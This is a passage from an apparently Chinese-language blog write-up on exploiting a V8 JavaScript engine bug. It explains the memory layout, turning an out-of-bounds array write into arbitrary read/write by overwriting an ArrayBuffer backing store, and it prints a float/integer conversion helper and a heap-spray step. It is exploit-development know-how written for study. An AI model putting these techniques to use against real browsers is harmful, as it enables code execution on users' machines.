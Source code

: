 **Patch**方式我们也都看到了，只需要将大于的情况也调用**&amp;runtime**创建空间即可。



## 漏洞利用

### <a class="reference-link" name="%E5%86%85%E5%AD%98%E6%A8%A1%E5%9E%8B"></a>内存模型

首先需要理解V8的一部分内存模型，这部分可以参考我在[V8基础](https://migraine-sudo.github.io/2020/02/15/v8/)里的介绍。

****关键字：JSFunction和ArrayBuffer****

### <a class="reference-link" name="%E5%AE%9E%E7%8E%B0OOB%20r&amp;w"></a>实现OOB r&amp;w

从越界读写到oob read&amp;write，需要借助ArrayBuffer对象。通过oobArray的数组越界，覆盖ArrayBuffer的Backing Store，实现任意地址读写。

我们需要在GC堆中布置一定数量的ArrayBuffer结构，希望至少其中某个能oobArray的越界写入范围。

**类型转换**

读写操作时，需要进行类型转换。**Float – Uint**

我们的oobArray=[1.1]，读写都是Float类型的，所以需要做个类型转换。而且64位下只有Uint32Array，只能读取32bit的数据。我们利用Float64Array进行读取，然后转化为两个Uint32Array。

```
/*l类型转换类*/
class ChangeType{
    constructor(){                             //构造函数
        this.buf=new ArrayBuffer(8);
        this.f64=new Float64Array(this.buf);
        this.u32=new Uint32Array(this.buf);
    }
    f2i(val){                                    //将两个Uint32转化为一个Float64
        this.f64[0]=val;
        return this.u32[1]*0x100000000+this.u32[0];
    }
    i2f(val){                                    //将一个Float64转化为两个Uint32
        this.u32[0]=parseInt(val%0x100000000);
        this.u32[1]=parseInt((val-this.u32[0])/0x100000000);
        return this.f64[0];
    }

}
function hex(x)                                //打印16进制
{
   return '0x' + (x.toString(16)).padStart(16, 0);
}
var ct=new ChangeType();
```

**寻找ArrayBuffer对象**

我们在迭代器中布置100个ArrayBuffer对象，将对象存入进一个arrays。经过GC回收内存后，这些对象会被GC移动到原oobArray内存（已被释放），就可以通过oobArray对ArrayBuffer进行修改。
